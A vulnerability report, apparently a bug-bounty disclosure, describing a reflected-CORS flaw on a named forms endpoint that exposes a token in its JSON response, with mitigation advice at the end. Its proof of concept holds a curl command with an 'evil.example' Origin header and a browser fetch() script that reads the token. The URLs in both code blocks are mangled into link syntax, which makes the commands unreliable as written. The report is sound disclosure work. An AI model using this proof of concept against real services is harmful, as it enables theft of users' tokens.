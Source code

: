 # Vulnerability Report: Reflected CORS and Information Disclosure

## Summary
A **Cross-Origin Resource Sharing (CORS) with reflection** vulnerability was discovered on the endpoint `https://forms.hscollectedforms.net/collected-forms/v1/config/json?portalId=5562482&utk=`. This flaw allows an attacker, through a controlled webpage, to obtain a user's sensitive information (a token). The server incorrectly reflects the `Origin` header, enabling an external site to read the JSON response.

## Technical Details
The server does not validate the `Origin` header against a whitelist of allowed domains. Instead, it simply mirrors the `Origin` value from the incoming request into the `Access-Control-Allow-Origin` response header. This, combined with the response containing a `token` field, allows an attacker to bypass the Same-Origin Policy and read the data.

### Impact
This vulnerability can be exploited by an attacker to exfiltrate a user's token, which could potentially be used to access resources or perform actions on their behalf on related services.

## Proof of Concept (PoC)
1. **Verify header reflection:**
   Use `curl` to send a request with a malicious `Origin` header:
   ```bash
   curl -is -H "Origin: [https://evil.example](https://evil.example)" \
   [https://forms.hscollectedforms.net/collected-forms/v1/config/json?portalId=5562482&utk=](https://forms.hscollectedforms.net/collected-forms/v1/config/json?portalId=5562482&utk=)
Expected Result: The server's response will include the header Access-Control-Allow-Origin: https://evil.example.

Demonstrate reading from an external site:
Create an HTML file, for example, poc.html, and open it in a web browser. The script will use fetch to make the request and display the response in the console.

HTML

<script>
fetch('[https://forms.hscollectedforms.net/collected-forms/v1/config/json?portalId=5562482&utk=](https://forms.hscollectedforms.net/collected-forms/v1/config/json?portalId=5562482&utk=)', {
    method: 'GET',
    credentials: 'omit' // Credentials are not required for this attack
})
.then(r => r.text())
.then(t => console.log('Response body:', t))
.catch(e => console.error('Error:', e));
</script>
Expected Result: The browser's console will display the JSON response body, including the token, which demonstrates the information leak.


Mitigation Recommendations
It is recommended that the server validate the Origin header against a whitelist of allowed domains before reflecting it in Access-Control-Allow-Origin. If no domains are allowed, consider omitting the Access-Control-Allow-Origin header from the responses.


   
